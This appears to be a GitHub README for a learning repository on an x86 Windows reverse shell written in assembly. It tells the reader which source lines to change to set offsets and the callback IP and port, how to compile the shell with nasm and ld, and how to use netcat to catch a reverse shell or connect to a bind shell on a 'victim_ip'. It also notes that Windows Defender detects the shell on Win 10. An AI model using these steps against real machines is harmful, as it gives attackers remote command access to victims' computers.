 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

- Ligne 78 v2 : LoadLibraryA replace it by your own offset
- Ligne 79 v2 : GetProcAddress replace it by your own offset
- Ligne 193 v2: SOKADDR_IN set you own port and IP address

### Architecture

Win32 plateform

- XP 
- Win 7
- Win 10 - Windows Defender Detects it's bad for himself

### Compilation 

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
## :two: Exploit

### Reverse Tcp

```
$netcat -v -l -p 4444
```

### Reverse Bind Tcp

```
$netcat -v victim_ip 4444
```

### Reverse Tcp With CPP 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


